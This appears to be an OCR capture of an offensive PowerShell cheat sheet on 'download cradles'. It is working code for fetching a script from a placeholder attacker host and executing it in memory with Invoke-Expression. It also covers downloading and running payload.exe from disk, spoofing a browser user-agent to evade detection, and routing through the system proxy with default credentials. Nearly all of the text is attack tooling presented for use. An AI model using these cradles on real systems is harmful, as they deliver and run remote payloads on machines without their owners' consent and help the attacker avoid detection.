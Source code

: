 #####################################
# Download Cradle
#####################################

# From PS
`iex (New-Object Net.Webclient).DownloadString("http://attacker_url/script.ps1")`
# OR CMD Prompt
`powershell.exe iex (New-Object Net.Webclient).DownloadString('http://attacker_url/script.ps1')`
# OR

# Memory Download 
`$downloader = New-Object System.Net.WebClient`
`$downloader.Headers.Add("user-agent", "Mozilla/5.0 (WIndows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")` | Optional for evasion if abnormal header detected
`$payload = "http://attacker_url/script.ps1"`
`$command = $downloader.DownloadString($payload)`
`Invoke-Expression $command`

# Optional Memory Download && Execution
`$req = [System.Net.WebRequest]::Create("http://attacker_URL/script.ps1")`
`$res = $req.GetResponse()`
`iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`

# Disk Download (Noisy and more likely to be detected)
`$downloader = New-Object System.Net.WebClient`
`$payload = "http://attacker_url/script.ps1"`
`$local_file = "C:\Users\ryane\Documents\payload.exe`
`$downloader.DownloadFile($payload,$local_file)`

# Executing file once on target system
`& $local_file` | & is the call operator

# !!!USE THIS FOR PROXY!!!
`$proxy = [Net.WebRequest]::GetSystemWebProxy()`
`$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials`
`$downloader.Proxy = $proxy`

